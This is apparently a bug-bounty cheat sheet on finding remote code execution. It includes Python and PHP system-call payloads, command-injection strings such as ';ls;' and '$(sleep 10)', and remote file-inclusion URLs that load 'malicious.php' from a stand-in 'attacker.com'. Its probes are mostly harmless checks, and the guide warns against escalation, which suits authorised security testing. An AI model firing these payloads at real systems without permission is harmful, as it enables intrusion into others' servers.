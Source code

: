 Helpful command for doing classical RCE:
``whoami 
Helpful command for doing blind RCE:
``sleep 5

##### 1st step
Do reconnaissance. If u want to hunt down RCE this step is most crucial, because this vulnerability is really dependent on the technology stack used by target.

##### 2nd step
Look for locations where users can send data through inputs. As always things like url adresses, http headers, body parameters and transferring files. To find potential file inclusion vulnerabilities, check for input locations being used to determine filenames or paths, as well as any file-upload functionalities in the application

##### 3rd step
Send test payloads:

###### Python:
``print("Test RCE!")
``"_import_('os').system('ls')"
``"_import_('os').system('sleep 5')"

###### PHP:
``phpinfo();
``<?php system("ls");?>
``<?php system("sleep 10");?>

###### To test command injection:
``;ls;
```
| sleep 10;
& sleep 10;
` sleep 10;`
$(sleep 10)
```


###### File inclusion:
You should try to include remote file that you can control:
`` http://example.com/?page=http://attacker.com/malicious.php
``http://example.com/?page=http:attacker.com/malicious.php
Or try to transfer file and include id by looking for its path
``http://example.com/?page=../uploads/malicious.php
``http://example.com/?page=..%2fuploads%2malicious.php
You can try to use [[SSRF]] methods to access it.

##### 4th Step
Confirm presence of the vulnerability by doing  whoami or ls or sleep 5.

### **Escalation**
You should try to not escalate, because most of the bug bounty programs wouldn't want you to search through confidential data. In typical penetration testing users try to tell what are their users permission and how can they escalate their privilege further. But, when you're bug bounting it isn't good, because there might be confidential data out there that you don't have access to normally. 
